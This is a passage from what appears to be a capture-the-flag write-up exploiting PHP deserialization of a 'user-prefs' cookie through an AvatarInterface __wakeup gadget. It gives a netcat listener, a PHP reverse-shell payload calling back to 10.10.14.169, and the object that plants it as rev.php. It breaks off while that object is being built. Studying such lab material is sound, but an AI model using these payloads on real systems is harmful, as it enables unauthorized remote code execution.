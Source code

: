 ```php
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

This code gets the value of `user-prefs` cookie, decodes it, and creates a `UserPrefs` object from it. There is a lot of information on how to exploit PHP deserialization, and i chose to follow [this](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) article. It mentions two 'magic' methods, `__wakeup()` and `__destruct()`. When unserialize is called on an object, these methods will always get executed. If there is a class that implements thse methods, i might be able to abuse it. And there is one such class, `AvatarInterface`.

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

So, what happens when unserialize is called on an `AvatarInterface` object? It creates an instance of the `Avatar` object and then calls that object's `save` method. This method then reads a file and writes its contents to another file. Since `file_get_contents` [can](https://www.php.net/manual/en/function.file-get-contents.php) read remote files and i control the path to this file, i can make it read a file with PHP reverse shell and save it on the webserver!
The attack looks like this:
1. Start a netcat listener on port 9999
```
❯ nc -lvnp 9999
listening on [any] 9999 ...
```
2. Create the file with reverse shell payload and start a web server to host it
```
❯ echo '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.169 9999 >/tmp/f"); ?>' > payload
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
3. Generate the malicious object
```php
$avatar = new AvatarInterface();
$avatar->tmp = "http://10.10.14.169:8000/payload";
$avatar->imgPath = "rev.php";
```